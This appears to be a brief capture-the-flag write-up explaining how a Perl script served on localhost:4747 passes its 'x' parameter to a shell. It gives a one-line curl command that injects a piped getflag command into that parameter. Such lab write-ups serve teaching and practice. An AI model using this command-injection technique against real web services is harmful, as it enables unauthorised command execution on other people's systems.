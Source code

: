 We can cat a .pl progamm which is script executed while curling localhost:4747
The param asked is "x", we just piped it zith getflag and we got our flag. curl
localhost:4747?x="|getflag"
